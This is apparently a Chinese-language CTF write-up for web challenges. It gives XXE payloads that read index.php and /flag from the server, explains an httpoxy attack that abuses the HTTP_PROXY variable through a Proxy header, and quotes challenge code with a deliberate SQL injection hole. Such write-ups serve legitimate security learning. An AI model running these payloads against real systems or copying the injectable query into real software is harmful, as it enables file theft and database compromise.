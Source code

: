 # File Access
```
file://index.php
```

# XXE

讀取index.php檔案，發現 flag 不在裡面=3=
```
<!DOCTYPE root [
  <!ENTITY name SYSTEM
  "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php"
  >
]>
<root>
    <result>&name;</result>
</root>
```
   
然後重讀題目發現....我眼殘 flag 在 /flag

```
<!DOCTYPE root [
  <!ENTITY name SYSTEM "file:///flag">
]>
<root>&name;</root>
```

# Bonus-httpoxy.py
這題一定要有 Proxy Server 而且要給外部訪問，可以利用手機網路，至少有實體IP   
不然AWS 或是其他 VPS 花下去，這題我把Linode 拿來用了...   

遇到一件事就是 Squid 架不起來，Google 了一下，放棄除錯改用 tinyproxy   

這題模擬 cgi 的漏洞，程式到 `http://127.0.0.1/waf` 去判斷參數有沒有正確，這邊就有點問題了     
其中 cgi 會把 header 的值變大寫並在前加入 `HTTP_` 的prefix，並加入環境變數      
而 `HTTP_PROXY` 這環境變數存在則會通過該變數的代理伺服器       
所以在發送請求時加入 proxy 這個 header 就是這題目的主要方法      

## cgi-bin
```
#!/usr/bin/env python
#
# By Orange Tsai :P
#

import os
import cgi
import sqlite3
import requests
from urllib import quote
from base64 import b64encode

print "Content-Type: text/html\n"

query  = os.environ["QUERY_STRING"]
params = dict(cgi.parse_qsl(query))

WAF = 'http://127.0.0.1/waf/'

def check_param(s):
    data = {
        'data': s
    }
    r = requests.post(WAF, data)
    content = r.content.strip()
    if r.content == 'ok':
        return True
    else:
        return False



news_id = params.get('id', '1')
if not check_param(news_id):
	news_id = '1'

conn = sqlite3.connect('/var/www/db/flag.db')
cur = conn.cursor()
cur.execute("SELECT * FROM news WHERE id='%s'" % news_id)
data = cur.fetchone()
if data:
	print data[1]
else:
	print 'Hacker?'
```
## waf
```
<?php
	// Simple Web Application Firewall
	// 
	$data = $_POST['data'];
	$data = (String)$data;
	if ($data == '1' || $data == '2' || $data == '3') {
		echo 'ok';
	}
```


**然後就是SQL injection的開始**   

其實一開始用還用 id 遞增的方式下去跑 XDD   

